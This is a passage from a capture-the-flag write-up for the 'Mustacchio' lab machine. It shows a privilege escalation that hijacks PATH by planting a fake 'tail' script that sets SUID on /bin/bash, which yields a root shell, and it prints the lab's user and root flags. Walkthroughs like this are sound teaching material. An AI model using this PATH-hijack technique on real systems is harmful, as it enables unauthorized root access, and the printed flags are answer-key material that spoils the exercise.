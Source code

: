 As in a previous challenge, if we can poison the 'access.log' maybe it will be executed as root.

Also as in a previous challenge, we noticed that ```tail``` is called without absolute path, maybe it would be easier to leverage this than the log poisoning.
Let's create a ```tail``` in barry's home directory that will SUID ```/bin/bash``` and export the PATH
```
barry@mustacchio:~$ mkdir bin
barry@mustacchio:~$ cd bin/
barry@mustacchio:~/bin$ touch tail
barry@mustacchio:~/bin$ nano tail 
```

Write SUID code
```
#!/bin/bash
chmod +s /bin/bash
```

Then let's make it executable and add the 'bin' directory to the PATH
```
barry@mustacchio:~/bin$ chmod +x tail 
barry@mustacchio:~/bin$ export PATH=/home/barry/bin:$PATH
```

Now let's get back to 'joe' directoty and run the code
```
barry@mustacchio:~/bin$ cd ../../joe/
barry@mustacchio:/home/joe$ ./live_log 
Live Nginx Log Reader
```

Let's check if it worked
```
barry@mustacchio:/home/joe$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1037528 Jul 12  2019 /bin/bash
barry@mustacchio:/home/joe$ /bin/bash -p 
bash-4.3# whoami
root
```

It did !! Let's get the flag then
```
bash-4.3# cat /root/root.txt 

3223581420d906c4dd1a5f9b530393a5
```


## Flag

1. User

```
62d77a4d5f97d47c5aa38b3b2651b831
```

2. Privesc

```
3223581420d906c4dd1a5f9b530393a5
```
